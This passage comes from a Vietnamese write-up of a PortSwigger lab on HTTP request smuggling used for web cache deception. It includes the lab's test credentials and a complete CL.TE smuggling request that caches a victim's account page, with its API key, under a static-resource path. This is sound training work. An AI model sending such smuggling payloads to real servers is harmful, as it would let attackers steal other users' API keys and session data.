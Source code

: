 ![image](https://hackmd.io/_uploads/BkipughpT.png)

### Burp scan

- mình quét lại bài lab với burp scan

![image](https://hackmd.io/_uploads/r1gaKlh66.png)

![image](https://hackmd.io/_uploads/BkD6Fl26p.png)

![image](https://hackmd.io/_uploads/ByLCtlnaT.png)

## 13. Lab: Exploiting HTTP request smuggling to perform web cache deception

link: https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception

### Đề bài

![image](https://hackmd.io/_uploads/Bk7Mcg3pT.png)

### Phân tích

Phòng thí nghiệm này bao gồm một máy chủ ngoại vi và phụ trợ, đồng thời máy chủ ngoại vi không hỗ trợ mã hóa phân đoạn. Máy chủ ngoại vi đang lưu trữ tài nguyên tĩnh.

Để giải quyết vấn đề lab, hãy thực hiện một cuộc tấn công chuyển lậu yêu cầu sao cho yêu cầu của người dùng tiếp theo khiến khóa API của họ được lưu vào bộ đệm. Sau đó lấy khóa API của người dùng nạn nhân từ bộ đệm và gửi nó dưới dạng giải pháp thí nghiệm. Bạn sẽ phải đợi 30 giây kể từ khi truy cập phòng thí nghiệm trước khi cố gắng lừa nạn nhân lưu khóa API của họ vào bộ nhớ đệm.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau:wiener:peter

### Khai thác

- Tương tự, các request load resources đều được cached.
- Sau khi đăng nhập ta có thể xem API key tại /my-account.

![image](https://hackmd.io/_uploads/Bylv5l26a.png)

- Ta gửi request tấn công smuggling với request đến /my-account.
- Đợi 1 chút để victim truy cập trang. Khi đó, victim sẽ gửi request đến /resources/js/tracking.js đầu tiên → nhận response smuggled của /my-account chứa thông tin của nạn nhân → cache lưu response đối với /resources/js/tracking.js.

```http!
POST / HTTP/1.1
Host: 0adf003604e3213683597818002400e9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 40
Connection: keep-alive

0

GET /my-account HTTP/1.1
X-Ignore: X
```
